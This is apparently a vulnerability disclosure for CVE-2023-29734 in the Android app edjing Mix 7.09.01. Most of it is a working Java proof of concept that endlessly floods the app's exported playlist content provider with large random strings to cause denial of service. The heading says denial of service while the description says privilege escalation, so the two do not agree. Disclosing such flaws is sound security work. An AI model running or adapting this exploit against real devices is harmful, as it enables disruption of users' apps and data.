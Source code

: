 ## Denial of Service exists in edjing Mix（CVE-2023-29734）

Vendor：MWM(http://www.edjing.com/)

Affected product：edjing Mix(com.edjing.edjingdjturntable)

Version：7.09.01

Download link：https://play.google.com/store/apps/details?id=com.edjing.edjingdjturntable

Description of the vulnerability for use in the CVE：An issue found in edjing Mix v.7.09.01 for Android allows unauthorized apps to cause escalation of privilege attacks by manipulating the database.



poc：

```java
public void attack(){
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString =getRandomString(52);
        String randomString2 =getRandomString(5120);
        Uri uri = Uri.parse("content://com.edjing.edjingdjturntable/playlist");
        ContentValues contentValues = new ContentValues();
        contentValues.put("playlist_id",3);
        contentValues.put("playlist_date_modified",1314234);
        contentValues.put("playlist_date_added",123456);
        contentValues.put("playlist_state",0);
        contentValues.put("playlist_name",randomString2);
        contentResolver.update(uri,contentValues,null,null);
    }
}

public static String getRandomString(int length) {
        String str = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
        Random random = new Random();
        StringBuffer sb = new StringBuffer();
        for (int i = 0; i < length; i++) {
            int number = random.nextInt(62);
            sb.append(str.charAt(number));
        }
        return sb.toString();
}
```



